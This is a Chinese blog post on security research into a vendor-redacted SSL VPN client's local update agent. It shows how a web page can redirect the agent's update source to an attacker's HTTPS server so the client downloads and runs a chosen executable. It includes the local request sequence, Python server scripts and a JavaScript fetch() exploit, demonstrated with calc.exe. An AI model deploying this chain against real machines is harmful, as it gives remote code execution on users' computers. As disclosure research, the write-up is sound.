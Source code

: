 ```yaml
---
layout: post
author: Vulkey_Chen
title: "某VPN客户端远程下载文件执行挖掘"
date: 2021-05-05
music-id: 1827600686
permalink: /archives/2021-05-05/1
description: "某VPN客户端远程下载文件执行挖掘"
---
```


# VPN客户端远程下载文件执行挖掘

## 前言

随便找一个地方下载VPN客户端下载安装。

安装完之后访问VPN的页面，发现VPN会自动下载组件更新：

![2021-03-23_11-56-10](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_11-56-10.png)

这之间也许是因为存在着某些联系，可以深入的看一下。

## 对本地的访问

重现上述问题，通过`F12`发现当访问VPN的登陆页面会对本地`127.0.0.1`进行HTTP(s)请求：

![2021-03-23_11-58-09](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_11-58-09.png)

这些请求均为GET请求并附带着一些参数，我们把它一一列下来：

![2021-03-23_12-00-49](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-00-49.png)

本地来看一下这个`54530`端口对应的进程是什么：

![2021-03-23_12-03-28](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-03-28.png)

发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：

![2021-03-23_12-04-46](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-04-46.png)

确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。

## 更新地址可控

通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。

再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：

```
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```

第一个初始化的请求存在可控参数arg1：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=XXX%20443&callback=EA_cb10000
```

参数`arg1=XXX%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：

```python
python -m SimpleHTTPServer
```

其他的请求原封不动，依次请求一遍那一份URL列表（图为请求示例）：

![2021-03-23_14-05-09](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_14-05-09.png)

服务端成功收到请求，但是却出现了错误的提示：

![2021-03-23_14-03-15](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_14-03-15.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。

## 服务搭建

现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。

如下脚本基于Python库建立一个 HTTPS 服务：

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：

![2021-03-23_18-03-36](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-03-36.png)

可以看见客户端会访问两个文件：

```
/com/WindowsModule.xml
/com/win/XXXUD.exe
```

先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：

```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。

最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。

依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：

```http
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```

会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：

![2021-03-23_18-12-55](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-12-55.png)

## Exploit实现

Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：

```javascript
<script>
	// 服务器IP和端口
	var ip = "172.20.10.2";
	var port = "8000";
	var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
	for(var i=0; i<poc_list.length; i++){
		setTimeout(fetch(poc_list[i]),"2000");
		
	}
</script>
```

其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。

![2021-03-23_18-17-02](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-17-02.png)
